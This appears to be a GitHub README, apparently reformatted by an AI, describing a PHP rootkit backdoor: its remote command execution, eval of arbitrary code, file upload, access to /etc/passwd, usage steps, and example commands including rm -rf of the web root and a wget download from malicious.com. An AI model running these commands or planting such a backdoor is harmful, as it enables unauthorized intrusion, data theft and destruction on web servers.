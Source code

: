 Here’s a reformatted version of your content suitable for a GitHub `README.md` file. I've removed the CSS and adjusted the formatting for Markdown compatibility, ensuring that code snippets are easily copyable.

### PHP RootKit Backdoor – Features & Security Risks

#### Overview

This PHP backdoor script provides full control over a web server once deployed. **It is a malicious tool** that allows unauthorized access and remote command execution.

#### Features & Functions:

- **Password-Protected Access:** Requires a predefined password for login.
- **File Manager:** View, create, edit, and delete files.
- **Command Execution:** Run system commands using `shell_exec()`.
- **PHP Code Execution:** Execute arbitrary PHP scripts via `eval()`.
- **File Upload:** Upload files to the server.
- **Sensitive File Access:** Read system files like `/etc/passwd`.

#### Usage (Theoretical)

Once uploaded to a server, this script can be accessed via a browser:

1. Navigate to the script URL.
2. Enter the password to gain access.
3. Execute commands, manage files, and exploit the server.

#### Example Commands:

```bash
ls -la  # List directory contents
cat /etc/passwd  # View system user accounts
rm -rf /var/www/html/*  # Delete all web files (dangerous)
wget http://malicious.com/malware.php -O /tmp/m.php  # Download a malicious script
php -r "system('whoami');"  # Check user permissions
```

#### Warning & Ethical Considerations

**Using such scripts for unauthorized access is illegal.** Ethical hackers and security researchers analyze these abilities to strengthen web security. If found on a system, **remove it immediately** and implement stronger security measures.
